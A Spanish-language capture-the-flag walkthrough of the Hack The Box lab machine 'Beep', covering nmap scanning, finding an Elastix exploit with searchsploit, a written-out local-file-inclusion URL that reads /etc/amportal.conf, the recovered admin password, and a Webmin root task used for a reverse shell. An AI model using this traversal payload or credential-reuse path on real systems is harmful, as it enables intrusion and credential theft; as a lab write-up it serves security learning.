 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 16/10/2017'
---
```


# Beep

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.7
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **22 (SSH - OpenSSH 4.3)**: Versión antigua, posible explotación y fuerza bruta.
* **25 (SMTP - Postfix)**: Puede filtrar usuarios o permitir envío sin autenticación (open relay).
* **80/443 (HTTP/HTTPS - Apache 2.2.3)**: Versión vulnerable, revisar exploits y probar SQLi, XSS, LFI.
* **110/995 (POP3/POP3s - Cyrus)**: Posible captura de credenciales en texto claro, probar autenticación.
* **111 (RPCBind)**: Puede permitir enumeración y ejecución remota de código.
* **143/993 (IMAP/IMAPs - Cyrus)**: Posible ataque de autenticación o exploits específicos.
* **3306 (MySQL - Acceso no autorizado)**: Intentar acceso con credenciales por defecto.
* **4445 (Servicio desconocido)**: Revisar banners y comportamiento con `nc`.
* **10000 (Webmin - MiniServ 1.570)**: **Vulnerable a RCE**, buscar exploits.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,443,110,995,143,993,3306,4445,10000 -v 10.10.10.7
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Probamos credenciales por defecto pero no hay resultado. Vamos a ver si **Elastix** tiene alguna vulnerabilidad para explotar.

```bash
searchsploit elastix
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos una vulnerabilidad **LFI** por lo que la explotamos. Descargamos el archivo.

```bash
searchsploit -m php/webapps/37637.pl
```

Vemos el contenido.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos el exploit LFI que tiene por lo que es lo que hacemos a continuación.

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al parecer aparecen unas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
admin:jEhdIekWmdjE
```

Nos intentamos loguear con esas credenciales en el servicio **Webmin**.&#x20;

> Nota: las credenciales son root como usuario y misma contraseña.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Podemos ejecutar una tarea como root y eso hacemos para una Reverse Shell.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1233).png" alt=""><figcaption></figcaption></figure>
